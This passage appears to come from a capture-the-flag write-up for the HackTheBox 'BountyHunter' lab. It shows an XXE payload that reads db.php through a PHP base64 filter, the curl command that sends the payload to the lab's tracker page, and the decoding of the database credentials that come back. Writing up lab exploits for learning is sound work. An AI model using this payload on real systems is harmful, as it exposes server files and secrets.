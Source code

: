 We have the list of accounts, and can see there is a user called development that can login. I did some more enumeration but didn't get anywhere, so looking back at that list of files I found with Ferroxbuster I tried a few, with db.php being the one I needed.

## Base64 Encoded Payload

It gets a little more complicated because we need to return the contents of that php file. We can use a built in function to base64 encode that file and return it to us. Using [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#php-wrapper-inside-xxe) example we create our payload the same way;

```html
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY file SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php"> ]>
                <bugreport>
                <title>test-title</title>
                <cwe>test-cwe</cwe>
                <cvss>test-cvss</cvss>
                <reward>&file;</reward>
                </bugreport>
```

As before base64 encode the payload, then URL encode it, then use curl to send to the tracker page:

```text
┌──(root💀kali)-[~/htb/bountyhunter]
└─# curl -X POST -d data="PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KPCFET0NUWVBFIHJlcGxhY2UgWzwhRU5USVRZIGZpbGUgU1lTVEVNICJwaHA6Ly9maWx0ZXIvY29udmVydC5iYXNlNjQtZW5jb2RlL3Jlc291cmNlPS92YXIvd3d3L2h0bWwvZGIucGhwIj5dPgogICAgICAgICAgICAgICAgPGJ1Z3JlcG9ydD4KICAgICAgICAgICAgICAgIDx0aXRsZT50ZXN0LXRpdGxlPC90aXRsZT4KICAgICAgICAgICAgICAgIDxjd2U%2BdGVzdC1jd2U8L2N3ZT4KICAgICAgICAgICAgICAgIDxjdnNzPnRlc3QtY3ZzczwvY3Zzcz4KICAgICAgICAgICAgICAgIDxyZXdhcmQ%2BJmZpbGU7PC9yZXdhcmQ%2BCiAgICAgICAgICAgICAgICA8L2J1Z3JlcG9ydD4%3D" http://10.10.11.100/tracker_diRbPr00f314.php

If DB were ready, would have added:
<table>
<SNIP>
    <td>Reward:</td>
    <td>PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=</td>
  </tr>
</table>
```

## DB Credentials

We have a base64 encoded data string returned, now we can decode to see the contents of that db.php file:

```text
┌──(root💀kali)-[~/htb/bountyhunter]
└─# echo "PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=" | base64 -d
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "<HIDDEN>";
$testuser = "test";
?>
```
